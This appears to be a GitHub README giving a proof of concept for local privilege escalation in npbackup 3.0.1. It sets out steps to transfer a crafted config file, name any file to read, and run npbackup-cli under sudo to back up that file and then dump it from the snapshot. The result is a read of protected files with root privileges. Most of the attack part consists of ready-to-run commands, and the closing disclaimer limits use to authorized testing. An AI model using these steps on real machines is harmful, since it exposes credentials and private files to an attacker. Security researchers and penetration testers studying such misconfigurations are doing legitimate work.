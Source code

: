 # ⚠️ npbackup Privilege Escalation - PoC

## 📌 Tested Version

- npbackup 3.0.1

---

## 🛠️ Proof of Concept

`npbackup` local privilege escalation via **Misconfiguration**.

### 📤 Deploy on Target Machine

1. **Transfer the `npbackup.conf`** file to the vulnerable machine.  
2. **Edit the configuration**: Add the path of the file or folder you want to read in line 11 of `npbackup.conf`.  
3. **Execute the backup command**:

```bash
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --backup
```
![Backup Snapshot](snapshot.png)

4. **Read a specific file from a snapshot** (replace `ADD_THE_SNAPSHOT_ID` with the actual snapshot ID shown in the snapshot list image):
```bash
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --dump ADD_THE_FILE_YOU_WANNA_READ --snapshot-id ADD_THE_SNAPSHOT_ID
```

---

## ⚖️ Disclaimer and Terms

This Proof of Concept (PoC) is provided for **educational and authorized penetration testing purposes only**.

- **No permission** is granted to modify, redistribute, or use this code for any other purposes.  
- Unauthorized use or modification may be **illegal and unethical**.  
- The authors take **no responsibility** for any misuse or damages.
